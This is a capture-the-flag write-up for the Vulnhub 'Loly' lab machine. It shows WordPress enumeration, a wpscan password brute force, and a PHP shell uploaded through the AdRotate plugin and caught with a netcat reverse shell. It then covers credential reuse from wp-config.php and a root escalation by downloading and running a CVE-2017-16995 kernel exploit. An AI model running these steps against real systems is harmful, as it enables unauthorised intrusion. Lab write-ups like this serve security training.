 ```yaml
---
title: Vulnhub - Loly
description: My writeup on Loly box.
categories:
 - vulnhub
tags: vulnhub wordpress gobuster wpscan kernel
---
```


![](https://mir-s3-cdn-cf.behance.net/project_modules/max_1200/ad961968970591.5b734bd15bb90.png)

You can find the machine there > [Loly](https://www.vulnhub.com/entry/loly-1,538/){:target="_blank"}

## Summary

This machine is an easy one, starting off we can find a wordpress installation and we gain access to it by running a brute force attack on the user. Shell uploading was a bit tricky, because common ways were blocked. After privilege escalation to first user was pretty easy we just have to look at wp-config file a really common method & the root one is a simple kernel exploit. Let's pwn it! :sunglasses:

## Enumeration/Reconnaissance

Let's start as always with nmap.

```
$ ip=192.168.1.15
$ nmap -p- --min-rate 10000 $ip
Starting Nmap 7.80 ( https://nmap.org ) at 2020-09-14 22:22 EEST
Nmap scan report for loly.lc (192.168.1.15)
Host is up (0.0013s latency).
Not shown: 65534 closed ports
PORT   STATE SERVICE
80/tcp open  http
MAC Address: 00:0C:29:C1:62:D5 (VMware)

Nmap done: 1 IP address (1 host up) scanned in 2.26 seconds
$ nmap -p 80 -sC -sV -oN nmap/initial $ip
Starting Nmap 7.80 ( https://nmap.org ) at 2020-09-14 22:23 EEST
Nmap scan report for loly.lc (192.168.1.15)
Host is up (0.00038s latency).

PORT   STATE SERVICE VERSION
80/tcp open  http    nginx 1.10.3 (Ubuntu)
|_http-server-header: nginx/1.10.3 (Ubuntu)
|_http-title: Welcome to nginx!
```

Visiting the web page, is just the default nginx page. No `/robots.txt` and such stuff so let's move on and run `gobuster`.

```
$ gobuster dir -q -u http://$ip/ -w /usr/share/dirbuster/wordlists/directory-list-2.3-medium.txt -x php,txt,html
/wordpress (Status: 301)
```

`/wordpress` isn't loading properly, checking the html code we can see a `dns-prefetch` and a domain name that's probably a virtual host let's add it to `/etc/hosts`.

```html
<link rel='dns-prefetch' href='//loly.lc'/>
```

```
$ nano /etc/hosts
$ cat /etc/hosts
..data..
192.168.1.15    loly.lc
```

Now we can see the wordpress site, let's run a `wpscan` on it to detect plugins/users.

```
$ wpscan --no-banner --url http://loly.lc/wordpress/ -e ap,u

..data..

[i] Plugin(s) Identified:

[+] adrotate
 | Location: http://loly.lc/wordpress/wp-content/plugins/adrotate/
 | Last Updated: 2020-09-08T17:49:00.000Z
 | [!] The version is out of date, the latest version is 5.8.8
 |
 | Found By: Urls In Homepage (Passive Detection)
 |
 | Version: 5.8.6.2 (80% confidence)
 | Found By: Readme - Stable Tag (Aggressive Detection)
 |  - http://loly.lc/wordpress/wp-content/plugins/adrotate/readme.txt

[i] User(s) Identified:

[+] loly
 | Found By: Author Posts - Display Name (Passive Detection)
 | Confirmed By:
 |  Author Id Brute Forcing - Author Pattern (Aggressive Detection)
 |  Login Error Messages (Aggressive Detection)
 ```

Interesting, without wasting more time let's run a brute force attack on loly user.

```
$ wpscan --no-banner --url http://loly.lc/wordpress/ -U loly -P /usr/share/wordlists/rockyou.txt 

..data..

[+] Performing password attack on Xmlrpc against 1 user/s
[SUCCESS] - loly / fernando                                                                                                                                                             
Trying loly / corazon Time: 00:00:04 <==============================================================================================================> (175 / 175) 100.00% Time: 00:00:04

[!] Valid Combinations Found:
 | Username: loly, Password: fernando
```

## Shell as www-data

Perfect now we can login in, admin panel is under `/wp-admin`. Here i got stuck for couple of minutes, tried ton of stuff but no luck spawning a shell. Anyway then i remembered the plugin `adrotate` i enumerated a bit and i found a way to upload a shell & execute it! Follow my steps:

1) Zip your shell!

```
$ zip shell.zip shell.php 
  adding: shell.php (deflated 59%)
```

2) Upload it

![](https://i.imgur.com/A6d1HeF.png)

![](https://i.imgur.com/QS3w5We.png)

3) Execute it

Enumerating the settings of the plugin i found out the where it saves the files:

![](https://i.imgur.com/NFf6z9B.png)

```
$ curl http://loly.lc/wordpress/wp-content/banners/shell.php
```

```
$ nc -lvp 6666
listening on [any] 6666 ...
$ python3 -c 'import pty; pty.spawn("/bin/bash")'
www-data@ubuntu:/$ whoami;id
www-data
uid=33(www-data) gid=33(www-data) groups=33(www-data)
```

## Shell as loly

A common method is makers to "hide" the user password under `wp-config.php` file, so i always check that first and 95% it works! :grin:

```
www-data@ubuntu:~/html/wordpress$ cat wp-config.php | grep "DB_PASSWORD"
define( 'DB_PASSWORD', 'lolyisabeautifulgirl' );
www-data@ubuntu:~/html/wordpress$ su - loly
Password: lolyisabeautifulgirl

loly@ubuntu:~$ whoami;id
loly
uid=1000(loly) gid=1000(loly) groups=1000(loly),4(adm),24(cdrom),30(dip),46(plugdev),114(lpadmin),115(sambashare)
```

## Shell as root

I did lot of enumeration but nothing, so my last hope is to be something like kernel exploit. I always love to run [linux exploit suggester](https://github.com/mzet-/linux-exploit-suggester){:target="_blank"} to speed up the process. Always check for highly probable exploits first.

```
loly@ubuntu:/tmp$ wget -q https://raw.githubusercontent.com/mzet-/linux-exploit-suggester/master/linux-exploit-suggester.sh
loly@ubuntu:/tmp$ bash linux-exploit-suggester.sh

..data..

Possible Exploits:

[+] [CVE-2017-16995] eBPF_verifier

   Details: https://ricklarabee.blogspot.com/2018/07/ebpf-and-analysis-of-get-rekt-linux.html
   Exposure: highly probable
   Tags: debian=9.0{kernel:4.9.0-3-amd64},fedora=25|26|27,ubuntu=14.04{kernel:4.4.0-89-generic},[ ubuntu=(16.04|17.04) ]{kernel:4.(8|10).0-(19|28|45)-generic}
   Download URL: https://www.exploit-db.com/download/45010
   Comments: CONFIG_BPF_SYSCALL needs to be set && kernel.unprivileged_bpf_disabled != 1
```

This seems perfect, let's download and test it out.

```
loly@ubuntu:/tmp$ wget -q https://www.exploit-db.com/download/45010 -O 45010.c
loly@ubuntu:/tmp$ /usr/bin/gcc 45010.c -o r00tplz
loly@ubuntu:/tmp$ chmod +x r00tplz
loly@ubuntu:/tmp$ ./r00tplz
[.] 
[.] t(-_-t) exploit for counterfeit grsec kernels such as KSPP and linux-hardened t(-_-t)
[.] 
[.]   ** This vulnerability cannot be exploited at all on authentic grsecurity kernel **
[.] 
[*] creating bpf map
[*] sneaking evil bpf past the verifier
[*] creating socketpair()
[*] attaching bpf backdoor to socket
[*] skbuff => ffff88000008c900
[*] Leaking sock struct from ffff88003990d640
[*] Sock->sk_rcvtimeo at offset 472
[*] Cred structure at ffff880032acc480
[*] UID from cred structure: 1000, matches the current: 1000
[*] hammering cred structure at ffff880032acc480
[*] credentials patched, launching shell...
# whoami;id
root
uid=0(root) gid=0(root) groups=0(root),4(adm),24(cdrom),30(dip),46(plugdev),114(lpadmin),115(sambashare),1000(loly)
```

Let's read the flag.

```
# cat root.txt
  ____               ____ ____  ____  
 / ___| _   _ _ __  / ___/ ___||  _ \ 
 \___ \| | | | '_ \| |   \___ \| |_) |
  ___) | |_| | | | | |___ ___) |  _ < 
 |____/ \__,_|_| |_|\____|____/|_| \_\
                                      
Congratulations. I'm BigCityBoy
```

Was fun, enjoyed it a lot! :smile:
